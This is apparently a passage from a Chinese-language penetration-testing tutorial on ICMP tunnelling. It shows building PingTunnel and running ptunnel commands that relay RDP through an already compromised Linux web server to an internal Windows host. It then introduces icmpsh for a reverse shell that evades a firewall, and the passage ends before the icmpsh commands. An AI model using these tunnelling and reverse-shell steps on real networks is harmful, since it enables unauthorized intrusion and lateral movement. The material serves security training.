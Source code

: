     
    
    yum -y install byaccyum -y install flex bison#安装libpcap依赖库wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gztar -xzvf libpcap-1.9.0.tar.gzcd libpcap-1.9.0./configuremake && make install#安装PingTunnelwget http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gztar -xzvf PingTunnel-0.72.tar.gzcd PingTunnelmake && make install

ptunnel 常用命令介绍：

    
    
    -p: 指定跳板服务器 IP 地址-lp: 监听本地 TCP 端口-da: 指定访问目标的内网 IP 地址-dp: 指定访问目标的端口-m: 设置隧道最大并发数-v: 输入内容详细级别（-1到4，其中-1为无输出，4为全部输出）-udp: 切换使用UDP代替ICMP，代理将监听端口53（必须是 root 权限）-x: 设置隧道密码，防止滥用（客户端和代理端必须相同）

目前有这样的一个场景，当前已经拿下了一台外网 Web Linux 服务器，想通过它利用 ICMP 协议连接内网的一台已经开启远程桌面的 Windows
，网络结构简化如下。

    
    
    Kali 攻击机       172.16.214.6 (外网)||Linux Web 跳板机  172.16.214.5  (外网)|                192.168.7.5   (内网)||Win RDP 目标机    192.168.7.110 (内网)

在 Kali 攻击机上执行以下命令

    
    
    ptunnel -p 172.16.214.5 -lp 1080 -da 192.168.7.110 -dp 3389 -x teamssix
    
    
    -p  指定跳板机外网IP-lp 指定本机的监听端口-da 指定目标机的内网IP-dp 指定目标机的端口-x 设置隧道密码

在 Linux Web 跳板机上执行以下命令

    
    
    ptunnel -x teamssix

之后访问 Kali 攻击机 172.16.214.6 的 1080 端口就会连接到 Win RDP 目标机 192.168.7.110 的 3389
端口了，不过实测发现这种方法有些不稳定。

![](https://gitee.com/fuli009/images/raw/master/public/20211027204328.png)

### icmpsh

icmpsh 使用很简单，直接在 github 上下载，运行时不需要管理员权限，但是在使用时需要关闭本地系统的 ICMP 应答，不然 shell
的运行会不稳定。

    
    
    git clone https://github.com/inquisb/icmpsh.git #下载工具apt-get install python-impacket # 安装依赖，或者 pip2 install impacketsysctl -w net.ipv4.icmp_echo_ignore_all=1  #关闭本地ICMP应答

icmpsh 常用命令介绍：

    
    
    -t host            发送ping请求的主机ip地址，即攻击机的IP [该命令必须存在]-d milliseconds    请求时间间隔（毫秒）-o milliseconds    响应超时时间（毫秒）-s bytes           最大数据缓冲区大小（字节）

目前有这样的一个场景，攻击机能通过 ICMP 协议访问到目标主机，但是目标上有防火墙，拒绝了敏感端口比如 22、3389 端口的访问，这个时候可以使用
icmpsh 利用 ICMP 协议建立反向 shell

    
    
    攻击机 IP：172.16.214.6目标机 IP：172.16.214.2
